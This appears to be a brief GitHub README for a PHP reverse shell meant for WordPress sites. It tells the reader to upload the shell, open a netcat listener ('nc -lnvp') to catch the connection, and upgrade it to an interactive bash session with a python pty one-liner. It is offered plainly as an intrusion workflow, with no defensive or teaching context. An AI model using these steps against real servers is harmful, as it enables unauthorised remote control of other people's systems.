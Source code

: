 # php-reverse-shell
php reverse shell for WordPress

After to upload the revers shell you have to run:
$ nc -lnvp <portNo.>

Nice ! :D we have a shell let’s make it fancy now
run -->>
python -c 'import pty; pty.spawn("/bin/bash")'
